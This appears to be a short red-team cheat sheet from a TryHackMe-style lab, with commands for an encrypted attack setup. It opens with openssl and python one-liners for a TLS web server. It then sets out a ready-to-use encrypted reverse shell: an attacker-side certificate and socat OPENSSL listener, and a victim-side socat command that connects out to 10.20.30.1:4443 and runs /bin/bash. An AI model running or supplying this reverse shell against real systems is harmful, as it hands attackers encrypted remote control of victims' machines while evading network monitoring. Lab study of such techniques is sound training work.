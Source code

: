 ## Encrypted webserver

	openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes

	python3 -c "import http.server, ssl;server_address=('[IP]',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"

## Encrypted ReverseShell

```
(Attacker)
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team HM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

(Victim)
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

```